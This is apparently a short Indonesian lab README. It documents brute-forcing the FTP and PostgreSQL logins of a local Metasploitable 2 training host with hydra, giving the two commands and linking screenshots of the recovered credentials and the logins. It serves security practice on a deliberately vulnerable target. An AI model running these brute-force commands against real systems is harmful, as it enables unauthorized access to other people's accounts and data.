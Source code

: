# Hydra
- IP Metasploitable 2 di local: 192.168.1.114

## Brute Force FTP Credentials
- Gunakan perintah: `hydra -L user-metasploitable2.txt -P password-metasploitable2.txt 192.168.1.114 ftp`
- Username dan password yang ditemukan:
![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/hydra/assets/hydra-ftp.JPG?raw=true)
- Melakukan akses ke FTP Server:
![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/hydra/assets/akses-ftp.JPG?raw=true)

## Brute Force PostgreSQL Credentials
- Gunakan perintah: `hydra -L /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt -P /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt 192.168.1.114 postgres`
- Username dan password yang ditemukan:
![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/hydra/assets/hydra-postgres.JPG?raw=true)
- Melakukan akses ke PostgreSQL:
![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/hydra/assets/akses-postgresql.JPG?raw=true)